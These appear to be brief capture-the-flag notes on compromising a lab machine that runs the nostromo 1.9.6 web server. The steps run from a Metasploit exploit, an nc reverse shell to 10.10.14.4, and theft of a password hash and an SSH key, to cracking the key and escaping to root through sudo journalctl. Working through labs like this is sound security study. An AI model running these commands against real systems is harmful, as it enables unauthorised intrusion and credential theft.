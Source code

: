 # user:
  - nmap.txt
  - run dirb on it to find interesting directories
  - look at request headers, server is running nostromo 1.9.6, look up exploit
  - metasploit module to get a "shell" (not an interactive shell, u can't cd because it just sends the command and prints the output)
  - drop a nc reverse shell by setting up a nc listener locally and running 'nc -e /bin/sh 10.10.14.4 1337' remotely
  - /var/nostromo is interesting
  - go into /conf/ and cat .htpasswd for: "david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/"
  - hash analyzer online says it's an MD5-Crypt
  - couldn't get john (or hashcat or online cracker) to crack the password
  - look at /var/nostromo/conf/nhttpd.conf (notice the homedirs and homedirs_public options)
  - read the nhttpd docs to find out what this does (you can visit http://10.10.10.165/~david/, but I couldn't figure out how to do much else)
  - from the docs, it looks like public_www is a directory in /home/david and it's supposed to be public so try to cd there in the www-data shell
  - you can cd into /home/david/public_www as www-data
  - from there, find the backup ssh keys and transfer to your computer with nc
  - try to ssh in as david, but there's a password on the SSH key
  - ssh2john to get a john-compatible hash
  - 'john ssh_pw' yields the password is "hunter"
  - ssh in as david
  - user pwned

# root:
  - dig around in david's bin/ directory
  - find ee.sh script, looks like you can run sudo on journalctl
  - GTFOBins for journalctl
  - run '/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service'
  - then do a '!/bin/bash' to drop a root shell
  - root pwned
